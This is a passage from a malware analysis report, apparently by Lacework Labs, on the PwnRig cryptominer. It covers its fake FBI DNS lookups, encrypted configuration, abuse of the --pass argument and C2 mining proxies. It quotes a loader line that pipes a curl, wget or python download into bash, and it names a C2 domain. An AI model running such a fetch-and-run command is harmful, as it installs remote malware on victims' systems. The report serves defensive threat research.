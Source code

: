  

Figure 6. PwnRig Signature
 
 
Foreground Execution: Fake Arguments
Through leveraging the -f foreground option and executing PwnRig, the standard interface one would expect with XMRig is observed. However, without providing command line options beyond -f, DNS queries are fired off to either fbi.com or fbi.org depending on the PwnRig release.
 

Figure 7. FBI DNS Attempts 
Lacework Labs assesses this may be an effort of misdirection, as hardcoded strings within the binary indicate that this is a “fake pool”. In the event DNS did not resolve, the IP that is used is 127.0.0.1. This fake pool was only observed being queried when PwnRig was being run in the foreground. Executing PwnRig without command line options caused it to spawn as a hard coded value. In the case of this sample that value is “dbused”.
 

Figure 8. PwnRig FBI Request 
Throughout other scripts associated with PwnRig, the fbi.com string has been repeatedly leveraged. For example, the encoded script (5f34168868107b31a3d31b071b71c6a7ffbf2ef48e0dac27c53115bc180dd029) placed within the dd.py script (558c12a703cac54a1a1206d80b12203d323b869e486a18c4340a09ff0a482570) which is executed through the initial loader infection process, includes a reference to the FBI.

key2="(curl -fsSL $url/xms||wget -q -O- $url/xms||python -c 'import urllib2 as fbi;print fbi.urlopen(\"$url/xms\").read()')| bash -sh; lwp-download $url/xms $DIR/xms; bash $DIR/xms; $DIR/xms; rm -rf $DIR/xms"

Encrypted Section
During analysis of illicit miners or related files it’s common to identify a configuration file (typically config.json) that contains the information relevant to the actual mining operations. This file contains the username, password, and various other information prevalent for the mining pool. During dynamic execution of PwnRig there was no obvious indication of a configuration file being written to disk or command line arguments being passed to the mining portion of the malware. When statically analyzing the PwnRig binary, a section of code with high entropy was discovered. References to this code had indications of OpenSSL libraries being used as well as AES functions. The Lacework Labs team assesses this section of the binary contains the configuration file.
 

Figure 9. High entropy section of PwnRig 
Rather than attempt to statically recover the cryptographic keys and IVs appropriate for decrypting this section of code, the Lacework Labs team dumped the memory of the running process to recover the configuration data. This memory dump was then loaded into Ghidra and the command line arguments associated with XMRig were identified and can be seen in the image below.
 

Figure 10. Command Line Arguments 
Perhaps the most interesting piece revealed through the command line arguments is the usage in an April 2021 sample of PwnRig was the usage of the --pass argument. Instead of being a password for the mining pool, the --pass command line argument is composed of the host IP address, username, hostname, number of processors and release of the CPU. The below table outlines a summary of associated PwnRig configurations.

Mining Proxy
In addition to the effort of concealing the PwnRig configuration setting, the actor also makes use of their own C2 servers as pool mining proxies. The adversary instructs their miners to list the mining pool as their own C2 server, and manage the public pool configuration in private from the server side. This ultimately prevents us from performing a lookup of their pool profile to inspect victim quantity, mining income, and other useful information. This is an interesting technique as it is not heavily observed in the majority of commodity cryptojacking campaigns. One recent mining proxy has been c4k-rx0.pwndns.pw, which can be easily noted by navigating to in the browser.
 
